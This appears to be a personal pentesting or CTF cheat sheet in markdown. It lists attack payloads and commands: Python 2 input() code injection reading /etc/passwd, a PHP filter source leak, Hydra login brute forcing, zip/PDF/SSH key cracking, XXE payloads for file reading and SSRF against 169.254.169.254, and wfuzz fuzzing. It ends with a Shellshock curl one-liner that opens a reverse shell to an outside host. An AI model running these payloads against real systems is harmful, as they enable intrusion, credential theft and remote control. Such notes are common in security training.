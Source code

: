 ## Learnings:
input() in python2 is not safe, equivalent to eval() 

exploiting input() command: 

```__import__("os").system('cat /etc/passwd')```


##  PHP:
fetching source files : 

index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.

follow the format ' path : inputs : F=failure condition'   , -s specifies port , even if u send pass only, specify user for it to run smoothly

## ssh2john

crack hashes from rsa private key certificates ( passphrase locked)

## Zip2John
zip2john zipfile.zip > passwordhash

john --format=pkzip passwordhash --wordlist=rockyou.txt ( depends on the format of archive/hash, look at previous output )

## PDFCrack
pdfcrack -f locked.pdf -w rockyou.txt

## Cyberchef is really good on the fly

## XXE:
### Normal request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### Crafted request:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
### SSRF 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> `
### blind SSRF test with your own server
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://toto.afri.ca"> ]> `
##### inline SSRF 
```<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://toto.afri.ca"> %xxe; ]>```

### xxe in svg
```<?xml version="1.0" standalone="yes"?><!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> ```

## Bruteforce/fuzzing

### wfuzz

#### hide 404
`./wfuzz -w wordlist/general/big.txt --hc 404 http://xxxxxxxxzxzx.zxz/FUZZ`
#### parameters
`./wfuzz -w wordlist/general/megabeast.txt --hh 24 http://xxxxx.zxv/api/action.php?FUZZ=1`
#### numericals
`./wfuzz -z range,0-10000 --hh 27 http://xxxxxx.xxx/api/action.php?reset=FUZZ`
### data
`./wfuzz -w wordlist/general/big.txt -d "FUZZ=1" http://xxxxx.xxx/api/action.php`


## Reversing

Dealing with stripped binaries https://reverseengineering.stackexchange.com/questions/1935/how-to-handle-stripped-binaries-with-gdb-no-source-no-symbols-and-gdb-only-sho

## sudo
if you got something juicy in sudo -l , but still cant read get the command to work, try impersonating another user with -u

### shellshock
curl 10.10.10.xx/cgi-bin/user.sh -H "User-Agent: () { :; };echo; echo;  /bin/bash -i >& /dev/tcp/10.10.14.xx/4242 0>&1'"

